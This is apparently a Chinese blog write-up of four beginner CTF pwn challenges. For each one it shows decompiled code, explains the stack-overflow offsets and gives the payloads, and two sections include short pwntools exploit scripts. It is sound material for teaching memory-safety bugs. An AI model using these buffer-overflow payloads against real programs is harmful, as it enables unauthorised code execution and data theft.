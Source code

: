 ```yaml
---
title: pwn_stack
date: 2019-08-27 11:13:10
tags: [pwn]
categories: [pwn]
copyright: true
description: <center>几道基础pwn栈溢出问题</center>
photo: "http://r.photo.store.qq.com/psb?/V13BnVsC23MbK8/z2I86fOkmMyHc4kIxJYWKJETZ0DpDVeqYGLvpIm*bjs!/r/dFMBAAAAAAAA"
---
```

---

# Doubly Dangerous

扔进IDA，F5查看伪代码，我们看到main函数里有两个变量，一个数组和一个单精度浮点数，一个gets函数。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-4Ch]
  float v5; // [esp+4Ch] [ebp-Ch]

  v5 = 0.0;
  puts("Give me a string: ");
  gets(&s);
  if ( 11.28125 == v5 )
  {
    puts("Success! Here is your flag:");
    give_flag();
  }
  else
  {
    puts("nope!");
  }
  return 0;
}
```

分析代码易知当v5等于11.28125时，就会调用`give_flag`函数，然后得到flag。于是我们的思路就是通过gets函数，使数组`s`的值覆盖掉v5的值，使v5等于11.28125。
那么通过IDA远程调试，断点就设置在main函数即可，然后单步调试，观察栈中的情况，我们发现v5最开始被赋值为零，记录下v5在栈中的位置：

{% asset_img dd.png %}

继续执行，找到数组`s`在栈中的位置：

{% asset_img dd1.png %}

我们要做的，就是在s中填充适当字符，覆盖掉v5为我们想要的。于是这两个栈中的地址相减，得到两者相距64个字节，那么就需要64个字节的字符填充，然后后4字节覆盖v5成11.28125。由计算机组成原理的知识，32位系统，小端，float型数据，得到11.28125的机器码为`0x41348000`，于是构造payload：`64*'a'+'\x00\x80\x34\x41'`

通过pwntools最终得到flag:

{% asset_img dd3.png %}

---

# Quals-Warmup

扔进IDA，查看伪代码

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char s; // [rsp+0h] [rbp-80h]
  char v5; // [rsp+40h] [rbp-40h]

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(&s, "%p\n", sub_40060D);
  write(1, &s, 9uLL);
  write(1, ">", 1uLL);
  return gets(&v5, ">");
}
```

查看`sub_40060D`

```c
int sub_40060D()
{
  return system("cat flag.txt");
}
```

分析代码可知，这个程序其实运行的时候，就已经把得到flag的函数地址打印出来了，所以要做的就是栈溢出，使返回值变为`sub_40060D`。然后查看v5在栈中的位置，使`RBP-40H`，所以保存的返回地址的起始在栈中的地址为`RBP-40H-8H(RBP旧值)-8H`，那么payload构造为`payload = 72*'a'+p64(0x40060d)`即可。通过pwntools得到flag:

{% asset_img qw.png %}

---

# sCTF 2016 q1-pwn1

扔进IDA，分析伪代码，发现main函数很简单，只调用了一个`vuln`函数，进入这个函数分析：

```c
int vuln()
{
  int v0; // ST08_4
  const char *v1; // eax
  char s; // [esp+1Ch] [ebp-3Ch]
  char v4; // [esp+3Ch] [ebp-1Ch]
  char v5; // [esp+40h] [ebp-18h]
  char v6; // [esp+47h] [ebp-11h]
  char v7; // [esp+48h] [ebp-10h]
  char v8; // [esp+4Fh] [ebp-9h]

  printf("Tell me something about yourself: ");
  fgets(&s, 32, edata);
  std::string::operator=(&input, &s);
  std::allocator<char>::allocator(&v6);
  std::string::string(&v5, "you", &v6);
  std::allocator<char>::allocator(&v8);
  std::string::string(&v7, "I", &v8);
  replace((std::string *)&v4, (std::string *)&input, (std::string *)&v7);
  std::string::operator=(&input, &v4, v0, &v5);
  std::string::~string((std::string *)&v4);
  std::string::~string((std::string *)&v7);
  std::allocator<char>::~allocator(&v8);
  std::string::~string((std::string *)&v5);
  std::allocator<char>::~allocator(&v6);
  v1 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(&s, v1);
  return printf("So, %s\n", &s);
}
```

分析代码加上运行这个程序，可以知道是返回输入，然后看代码中`v5`是`you`，`v7`是`I`，然后有个`replace`函数，猜测是将输入中的`I`全部替换为`you`，测试一下，发现确实是。然后看输入的s，距离`ebp`有`3C`，然而fgets允许输入的最长字符串为32，所以不可能通过直接输入导致栈溢出。我们看到代码的最后，有个`strcpy`函数，分析可知，是将替换后的字符串给了v1，然后将v1拷贝到s中，于是乎，我们的目标就是通过替换后的字符串，使栈溢出。所以我们需要输入21个`I`，然后再任意输入一个字符作为payload的占位部分，然后加上`get_flag`的地址。exp如下：

```python
from pwntools import *

io = process('./pwn1')

io.recv()

payload = 'I'*21+'a'+p32(0x08048f0d)

io.sendline(payload)

print io.recv()
```

---

# just_do_it

扔入IDA中，分析代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+8h] [ebp-20h]
  FILE *stream; // [esp+18h] [ebp-10h]
  char *v6; // [esp+1Ch] [ebp-Ch]

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 2, 0);
  v6 = failed_message;
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  if ( !fgets(&s, 32, stdin) )
  {
    perror("input error.\n");
    exit(0);
  }
  if ( !strcmp(&s, PASSWORD) )
    v6 = success_message;
  puts(v6);
  return 0;
}
```

发现代码是让你输入密码，查看`success_message`，发现就是一个输入成功的字符串，而不是flag。从代码中可以看到，代码使用fgets读取flag，保存到全局变量flag中。我们输入是在s，但是s距离`ebp`有`20H`，而fgets只允许有32个字符的输入，明显不能直接栈溢出。于是继续分析。我们发现最终输出了v6，v6距离s只有20个字符，于是我们可以覆盖v6为flag的地址，通过puts打印出flag。exp如下:

```python
from pwntools import *

io = process('./just_do_it')

io.recv()

payload = 'a'*20 + p32(0x0804A080)

io.sendline(payload)

io.recv()
```